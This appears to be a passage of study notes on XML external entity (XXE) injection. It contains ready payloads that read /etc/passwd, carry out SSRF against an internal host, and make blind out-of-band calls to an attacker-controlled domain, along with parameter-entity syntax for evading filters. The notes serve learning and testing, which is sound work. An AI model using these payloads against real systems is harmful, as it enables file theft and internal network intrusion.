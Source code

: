 eg - shopping application checks for the stock level of a product by submitting the following XML to the server

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>381</productId>
</stockCheck>
```

- you can exploit the XXE vulnerability to retrieve the `/etc/passwd` file by submitting the following XXE payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>
```

- XXE payload defines an external entity `&xxe;` whose value is the contents of the `/etc/passwd` file and uses the entity within the productId value.

### 2) Exploiting XXE to perform SSRF attacks

- define an external XML entity using the URL that you want to target
- use the defined entity within a data value
- if it is returned in the application's response, you will be able to view the response from the URL within the applications' response, and gain two-way interaction with the back-end system
- else perform blind SSRF attacks

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

### 3) Exploiting blind XXE

- Blind XXE - arise where the application is vulnerable to XXE injection but does not return the values fo any defined external entities within its responses

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

- this XXE attack causes the server to make a back-end HTTP request to the specified URL and attacker can monitor for the resulting DNS lookup and HTTP request, and detect that the XXE attack was successful

- sometimes, XXE attacks using regular entities are blocked, by some input validation by the application or some hardening of the XML parser

  - use XML parameter entities - special kind of XML entity which can only be referenced elsewhere within the DTD

  - first declare an XML parameter entity include the `%` character before the entity name

  ```
  <!ENTITY % parametername "parameter value" >
  ```

